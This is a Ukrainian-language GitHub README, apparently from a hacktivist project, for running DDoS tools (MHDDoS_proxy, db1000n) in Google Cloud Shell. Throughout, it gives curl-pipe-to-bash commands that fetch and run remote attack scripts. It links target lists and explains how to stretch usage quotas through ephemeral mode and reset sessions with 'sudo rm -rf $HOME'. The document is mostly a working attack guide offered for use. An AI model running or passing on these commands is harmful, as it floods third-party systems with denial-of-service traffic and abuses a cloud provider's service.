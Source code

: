## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**Layer4:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
**All list (*--itarmy*):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
**Розділений термінал (Layer7+Layer4):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
.    
:white_check_mark: *Автоперезапуск скриптів, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди ` -s -- "кількість"`, напр. `-s -- 2000`*    
#
### Команда для встановлення та запуску db1000n
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Максимальна тривалість сеансу Cloud Shell обмежена 12 годинами, після чого сеанси автоматично припиняються. Новий сеанс можна почати одразу після цього.
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
